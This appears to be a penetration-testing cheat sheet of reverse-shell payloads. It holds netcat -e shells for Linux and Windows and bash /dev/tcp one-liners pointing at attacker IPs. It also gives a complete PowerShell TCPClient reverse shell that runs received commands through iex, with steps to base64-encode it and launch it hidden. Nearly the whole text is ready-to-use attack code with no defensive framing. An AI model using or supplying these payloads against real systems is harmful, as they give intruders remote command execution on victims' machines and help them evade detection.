 * Necat: 
```
# Linux
nc <IP> <PORT> -e /bin/bash

# Windows
nc.exe <IP> <PORT> -e cmd.exe

```

## Bash

`bash -i >& /dev/tcp/ATTACKER-IP/ATTACKER-PORT 0>&1`

this one works everywhere `exec 5<>/dev/tcp/10.10.14.151/443;cat <&5 | while read line; do $line 2>&5 >&5; done`

## Powershell

### Encoded Powershell Execution

1. Create `shell_raw.ps1` with following contents

```powershell
#replace <IP_ATTACKER> with target ip, so it is going to look something like this: TCPClient('10.231.12.44',443)

# rev.ps1
$client = New-Object System.Net.Sockets.TCPClient('<IP_ATTACKER>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PSReverseShell# ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}$client.Close();

```

2. Encode contents of  `shell_raw.ps1`

```powershell
# using powershell 
$expression     = Get-Content -Path .\shell_raw.ps1
$commandBytes   = [System.Text.Encoding]::Unicode.GetBytes($expression)
$encodedCommand = [Convert]::ToBase64String($commandBytes)
$filePath = "encoded.ps1"

$encodedCommand | Out-File -FilePath $filePath  -Encoding ASCII


# or using python

import sys
import base64

with open(sys.argv[1], 'r') as file:
    payload = file.read()

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```
3. Execute with powershell the output of $encodedCommand
